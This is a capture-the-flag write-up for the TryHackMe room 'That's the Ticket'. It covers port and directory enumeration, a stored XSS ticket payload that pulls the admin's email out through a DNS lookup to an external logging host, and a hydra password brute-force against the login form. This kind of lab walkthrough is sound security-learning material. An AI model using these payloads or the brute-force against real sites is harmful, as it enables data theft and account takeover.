



# That's the Ticket

**Date:** 10, June, 2021

**Author:** Dhilip Sanjay S

---
[Click Here](https://tryhackme.com/room/thatstheticket) to go to the TryHackMe room.

## Enumeration

### Nmap

```bash
$ nmap -sC -sV -p- 10.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-10 12:52 IST
Nmap scan report for 10.10.118.129
Host is up (0.15s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 bf:c3:9c:99:2c:c4:e2:d9:20:33:d1:3c:dc:01:48:d2 (RSA)
|   256 08:20:c2:73:c7:c5:d7:a7:ef:02:09:11:fc:85:a8:e2 (ECDSA)
|_  256 1f:51:68:2b:5e:99:57:4c:b7:40:15:05:74:d0:0d:9b (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Ticket Manager > Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 361.51 seconds
```

### Gobuster

```bash
$ gobuster dir -u http://10.10.118.129/ -t 50 -w /usr/share/wordlists/dirb/big.txt -x php,txt,js -b 302,404
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.118.129/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   302,404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              js,php,txt
[+] Timeout:                 10s
===============================================================
2021/06/10 12:53:59 Starting gobuster in directory enumeration mode
===============================================================
/login                (Status: 200) [Size: 1549]
/register             (Status: 200) [Size: 1774]
                                                
===============================================================
2021/06/10 12:58:04 Finished
===============================================================
```

--- 

## Exploiting Create Ticket 

- The text field for creating ticket was accepting **DOM elements**.
- Create a ticket as follows:

```html
</textarea>

<textarea>
```



- And also in the DNS lookup tool provided by tryhackme, there were lookups for the **A and AAAA records** from *unknown IP*. There were no HTTP requests from that IP!
- It must have been from the **Admin**!

## Exploiting DNS lookups

- So, we must exfiltrate the admin's email via DNS lookups.
- We can fetch email from the innerHTML of the `email` DOM element.
- And then append the email as a subdomain. (Classic DNS exfiltration)!
    - **NOTE:** We need to replace the `@` and `.` characters in the email.
- Submit the following script as the ticket:

```html
</textarea>
<script>
var email = document.getElementById("email").innerHTML;
email = email.replace('@', 'X');
email = email.replace('.', 'Y');
fetch('http://'+ email + '.b84718867c264a0ac68b4099156f3c89.log.tryhackme.tech');
</script>
<textarea>
```

- We can get back the admin's email in the DNS lookup:



---

## Bruteforcing the password

- Use `hydra` or `Burp intruder` to bruteforce the password: 

```bash
$ hydra -l "<REDACTED>.thm" -P /usr/share/wordlists/rockyou.txt 10.10.118.129 http-post-form "/login:email=^USER^&password=^PASS^&Login=Login:Invalid email / password combination" -V
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-10 13:38:49
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.118.129:80/login:email=^USER^&password=^PASS^&Login=Login:Invalid email / password combination
[..snip..]
[80][http-post-form] host: 10.10.118.129   login: <REDACTED>.thm   password: <REDACTED>
[..snip..]
```


## Flag inside Ticket 1

